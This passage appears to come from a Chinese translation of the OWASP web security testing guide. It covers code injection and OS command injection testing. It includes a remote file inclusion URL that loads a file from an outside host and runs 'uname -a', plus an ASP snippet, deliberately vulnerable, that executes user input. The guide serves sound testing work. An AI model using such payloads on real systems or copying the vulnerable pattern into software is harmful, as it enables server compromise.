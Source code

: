 ```

```http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a```

恶意URL被接受为PHP页面的参数，该页面稍后将使用包含文件中的值。

#### 灰盒测试
##### 测试ASP代码注入漏洞
检查ASP代码以获取执行功能中使用的用户输入。用户可以在“数据输入”字段中输入命令吗？在这里，ASP代码会将输入保存到文件中，然后执行它：
```aspx
<%
If not isEmpty(Request( “Data” ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject(“Scripting.FileSystemObject”)
Set f = fso.OpenTextFile(Server.MapPath( “data.txt” ), 8, True)
f.Write Request(“Data”) & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( “data.txt” )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```
### References
Security Focus
Insecure.org
Wikipedia
Reviewing Code for OS Injection

## 命令注入测试	Testing for Command Injection
ID : WSTG-INPV-12

### 摘要
本文介绍如何测试应用程序的OS命令注入。测试人员将尝试通过HTTP请求向应用程序注入OS命令。

OS命令注入是通过Web界面使用的一种技术，用于在Web服务器上执行OS命令。用户通过Web界面提供操作系统命令，以执行OS命令。任何未正确进行输入清洗的Web界面都将受到此攻击。具有执行OS命令的能力，用户可以上传恶意程序，甚至获取密码。在应用程序的设计和开发过程中强调安全性时，可以防止OS命令注入。

### 测试方法
在Web应用程序中查看文件时，文件名通常显示在URL中。Perl允许将流程中的数据传送到开放语句中。用户只需将Pipe符号附加|到文件名的末尾即可。
